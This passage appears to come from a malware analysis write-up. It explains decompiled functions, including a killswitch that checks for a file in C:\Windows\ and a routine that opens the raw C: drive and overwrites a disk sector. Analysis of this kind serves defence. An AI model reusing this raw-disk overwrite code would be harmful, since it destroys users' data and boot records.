 ```cpp
}
```

First we see a call to [PathFindFileNameW](https://docs.microsoft.com/en-us/windows/win32/api/shlwapi/nf-shlwapi-pathfindfilenamew) being used to obtain the file name of the malware from the `dll_fully_qualified_path` global. Next we see [PathCombineW](https://docs.microsoft.com/en-us/windows/win32/api/shlwapi/nf-shlwapi-pathcombinew) being used to combine `C:\Windows\` and the malware file name, the result is stored in the passed buffer `param_1`. Next we see a call being made to [PathFindExtensionW](https://docs.microsoft.com/en-us/windows/win32/api/shlwapi/nf-shlwapi-pathfindextensionw) to find the location of the path extension dot `.`. If found this dot is replaced by a `NUL` effectively terminating the string. At this point the function also returns true. We'll rename the function to `get_malware_c_windows_file_path`.

### Back in FUN_1000835e (killswitch)

We see that this function continues if a path for the malware in `C:\Windows\` was succesfully constructed. Next we see [PathFileExistsW](https://docs.microsoft.com/en-us/windows/win32/api/shlwapi/nf-shlwapi-pathfileexistsw) being used to check if a file already exists at the constructed path.

**If such a file exists already, [ExitProcess](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-exitprocess) is invoked terminating the malware and all its threads.**

If the file did not exist yet then it is created and the success value of this call is the return value of the function. We rename the function to `create_c_windows_file_or_exit`

Next we move on to the second function inside the if statement in `Oridinal_1`.

### FUN_10008d5a

```cpp
void FUN_10008d5a(void){
  HANDLE hDevice;
  BOOL BVar1;
  HLOCAL lpBuffer;
  int iVar2;
  DWORD local_24;
  undefined local_20 [20];
  DWORD local_c;
  
  hDevice = CreateFileA("\\\\.\\C:",0x40000000,3,(LPSECURITY_ATTRIBUTES)0x0,3,0,(HANDLE)0x0);
  if (hDevice != (HANDLE)0x0) {
    BVar1 = DeviceIoControl(hDevice,0x70000,(LPVOID)0x0,0,local_20,0x18,&local_24,(LPOVERLAPPED)0x0)
    ;
    if ((BVar1 != 0) && (lpBuffer = LocalAlloc(0,local_c * 10), lpBuffer != (HLOCAL)0x0)) {
      SetFilePointer(hDevice,local_c,(PLONG)0x0,0);
      WriteFile(hDevice,lpBuffer,local_c,&local_24,(LPOVERLAPPED)0x0);
      LocalFree(lpBuffer);
    }
    CloseHandle(hDevice);
  }
  if (((detected_anti_virus & 8) != 0) && (iVar2 = FUN_100014a9(), iVar2 == 0)) {
    return;
  }
  FUN_10008cbf();
  return;
}
```
